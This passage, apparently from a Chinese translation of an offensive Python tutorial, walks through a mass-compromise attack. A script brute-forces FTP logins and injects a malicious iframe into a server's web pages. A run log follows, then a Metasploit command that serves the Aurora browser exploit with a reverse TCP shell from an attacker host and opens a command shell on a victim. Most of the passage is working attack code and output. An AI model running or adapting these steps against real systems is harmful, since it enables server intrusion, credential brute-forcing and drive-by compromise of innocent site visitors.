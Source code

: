 ```py
    tgtHosts = str(options.tgtHosts).split(', ')
    passwdFile = options.passwdFile
    redirect = options.redirect
    if tgtHosts == None or redirect == None:
        print parser.usage
        exit(0)
    for tgtHost in tgtHosts:
        username = None
        password = None
        if anonLogin(tgtHost) == True:
            username = 'anonymous'
            password = 'me@your.com'
            print '[+] Using Anonymous Creds to attack'
            attack(username, password, tgtHost, redirect)
        elif passwdFile != None:
            (username, password) = bruteLogin(tgtHost, passwdFile)
        if password != None:
            print'[+] Using Creds: ' + username + '/' + password + ' to attack'
            attack(username, password, tgtHost, redirect)

if __name__ == '__main__':
    main() 
```

运行我们的脚本攻击一个脆弱的 FTP 服务器，我们看到它尝试匿名登陆失败，然后暴力破解获得用户名和密码，然后下载和注入代码到每一个基目录里的文件。

```py
attacker# python massCompromise.py -H 192.168.95.179 -r '<iframe src=" http://10.10.10.112:8080/exploit"></iframe>' -f userpass.txt
[-] 192.168.95.179 FTP Anonymous Logon Failed.
[+] Trying: administrator/password
[+] Trying: admin/12345
[+] Trying: root/secret
[+] Trying: guest/guest
[*] 192.168.95.179 FTP Logon Succeeded: guest/guest
[+] Found default page: index.html
[+] Found default page: index.php
[+] Downloaded Page: index.html
[+] Injected Malicious IFrame on: index.html
[+] Uploaded Injected Page: index.html
[+] Downloaded Page: index.php
[+] Injected Malicious IFrame on: index.php
[+] Uploaded Injected Page: index.php
[+] Injected Malicious IFrame on: testmysql.php 
```

我们确保我们的攻击向量在运行，然后等待客户机连接到我们受感染的 WEB 服务器上。很快，`10.10.10.107`访问了服务器然后重定向到了我们的恶意服务器上。成功！我们通过被感染的 FTP 服务器得到了一个受害者主机的命令行 Shell。

```py
attacker# msfcli exploit/windows/browser/ms10_002_aurora LHOST=10.10.10.112 SRVHOST=10.10.10.112 URIPATH=/exploit PAYLOAD=windows/shell/reverse_tcp LHOST=10.10.10.112 LPORT=443 E
[*] Please wait while we load the module tree...
<...SNIPPED...>
[*] Exploit running as background job.
[*] Started reverse handler on 10.10.10.112:443
[*] Using URL:http://10.10.10.112:8080/exploit
[*] Server started.
msf exploit(ms10_002_aurora) >
[*] Sending Internet Explorer "Aurora" Memory Corruption to client 10.10.10.107
[*] Sending stage (240 bytes) to 10.10.10.107
[*] Command shell session 1 opened (10.10.10.112:443 -> 10.10.10.107:65507) at 2012-06-24 10:02:00 -0600
msf exploit(ms10_002_aurora) > sessions -i 1
[*] Starting interaction with 1...
```